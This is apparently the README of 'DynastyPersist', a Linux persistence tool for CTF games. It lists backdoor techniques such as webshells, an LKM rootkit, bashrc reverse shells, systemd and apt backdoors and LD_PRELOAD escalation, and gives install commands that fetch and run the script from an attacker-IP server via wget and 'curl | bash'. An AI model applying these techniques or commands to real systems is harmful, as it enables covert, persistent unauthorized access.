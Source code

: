 
<h1 align="center">DynastyPersist</h1>


* A CTF Tool for Linux persistence (KOTH, Battlegrounds)

* A powerful and versatile Linux persistence script designed for various security assessment and testing scenarios. This script provides a collection of features that demonstrate different methods of achieving persistence on a Linux system.

* `There Will Be A Huge Update On This Tool Soon!`

![GitHub](https://img.shields.io/github/license/trevohack/DynastyPersist)
![GitHub stars](https://img.shields.io/github/stars/trevohack/DynastyPersist)

## Features

1. **SSH Key Generation:** Automatically generates SSH keys for covert access.

2. **Cronjob Persistence:** Sets up cronjobs for scheduled persistence.

3. **Custom User with Root:** Creates a custom user with root privileges.

4. **RCE Persistence:** Achieves persistence through remote code execution (php webshell).

5. **LKM/Rootkit:** Demonstrates Linux Kernel Module (LKM) based rootkit persistence.

6. **Bashrc Persistence:** Modifies user-specific shell initialization files for persistence (aliases / reverse shells). 

7. **Systemd Service for Root:** Sets up a systemd service for achieving root persistence.

8. **LD_PRELOAD Privilege Escalation Config:** Configures LD_PRELOAD for privilege escalation.

9. **Backdooring Message of the Day / Header:** Backdoors system message display for covert access.

10. **Modify an Existing Systemd Service:** Manipulates an existing systemd service for persistence.

11. **Backdoors APT Command:** Backdoors `apt` command to pop up a shell. 


## Installation

1. Clone this repository to your local machine:

```bash
$ git clone https://github.com/Trevohack/DynastyPersist.git

$ python3 -m http.server 8080 
root@tyler.thm~$ cd /opt && wget -c [ATTACKER-IP]:8080/DynastyPersist && cd DynastyPersist && chmod +x dynasty.sh && ./dynasty.sh <ATTACKER_IP> <PORT>
``` 

2. One linear
   
```bash
curl -sSL [ATTACKER_IP]:8080/DynastyPersist/dynasty.sh <ATTACKER_IP> <PORT> | bash
``` 

## Support

For support, email `spaceshuttle.io.all@gmail.com` or join our Discord server. 

* Discord: `https://discord.gg/WYzu65Hp`

Thank You! 

![icons8-linux](https://github.com/Trevohack/DynastyPersist/assets/136177431/61035f94-039b-4ed9-b463-36a78aa69ab0)

